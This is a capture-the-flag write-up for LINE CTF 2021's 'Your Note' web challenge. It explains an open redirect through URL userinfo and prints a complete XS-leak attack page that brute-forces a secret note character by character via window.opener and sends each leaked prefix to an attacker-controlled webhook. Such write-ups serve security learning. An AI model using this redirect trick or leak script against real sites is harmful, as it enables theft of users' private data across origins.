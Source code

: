 # LINE CTF 2021 - Web - Your Note

## Problem

> Secure private note service<br>
> ※ Admin have disabled some security feature of their browser...
>
> Flag Format: LINECTF{[a-z0-9-]+}
>
> http:// 34.84.243.202<br>
> http:// 35.200.11.35 (mirror)<br>
> http:// 34.84.72.167 (mirror)

## Solution

### Step 1. Redirect to an arbitrary URL

The login API is as follows:
```python
@app.route('/login', methods=['GET', 'POST'])
def login():
    url = request.args.get('redirect')
    if url:
        url = app.config.get('BASE_URL') + url
        if current_user.is_authenticated:
            return redirect(url)

    if request.method == 'POST':
        # -- snip --

    elif request.method == 'GET':
        return render_template('login.html')
```

This API provides a redirect to `app.config.get('BASE_URL') + request.args.get('redirect')`, where `BASE_URL = f"http://{APP_HOST}"`.

Then, if we send `http://34.84.72.167/login?redirect=@evil.example.com` to the bot, the redirect url is `http://{APP_HOST}@evil.example.com`. So, we can make the bot redirect to an arbitary URL because `{APP_HOST}` is interpreted as a user name in the URL.

### Step 2. Specify the flag with `window.opener`

A part of `crawler.js` is as follows:
```javascript
        /* -- snip -- */

        const browser = await puppeteer.launch({
            args: [
                '--no-sandbox',
                '--disable-popup-blocking',
            ],
            headless: true,
        });
        const page = await browser.newPage();

        /* -- snip -- */
```

The `--disable-popup-blocking` option enables us to use `window.open`.

So, I prepared the following attack server:

- `index.html`:
    ```html
    <script>
      window.open("evil.html");
    </script>
    ```
- `empty.html`:
    ```html

    ```
- `evil.html`
    ```html
    <script>
    const url = "http://34.84.72.167";
    const webhook = "https://{{ ... }}";
    const chars = "}-abcdefghijklmnopqrstuvwxyz0123456789";
    const sleep = (ms) => new Promise((r) => setTimeout(r, ms));

    const main = async () => {
      await sleep(200);

      window.open(`${webhook}/ping`);

      let prefix = "LINECTF{";

      while (true) {
        if (prefix.endsWith("}")) {
          break;
        }
        window.open(`${webhook}/prefix/${prefix}`);

        await sleep(200);
        let exists = false;
        for (const c of chars) {

          window.opener.location.href = `/empty.html`;
          await sleep(200);
          window.opener.location.href = `${url}/search?q=${prefix + c}&download`;
          await sleep(500);

          try {
            console.log(window.opener.document.body.textContent);
            prefix += c;
            exists = true;
            break;
          } catch (e) { }
        }
        if (!exists) {
          window.open(`${webhook}/fail/${prefix}`);
          return;
        }
      }
      window.open(`${webhook}/success/${prefix}`);
    };
    main();
    </script>
    ```

If a user who has a note with a flag `LINECTF{[a-z0-9-]+}` accesses `index.html`, the flag is leaked in order from the first character. This is a XS-leak attack with Cross-Origin-Opener-Policy.

This attack was successful in my local environment. However, unfortunately, because the problem server was unstable, I got the flag by adjusting the sleep times and saving the search range at that point :(

## Flag

`LINECTF{1-kn0w-what-y0u-d0wn10ad}`
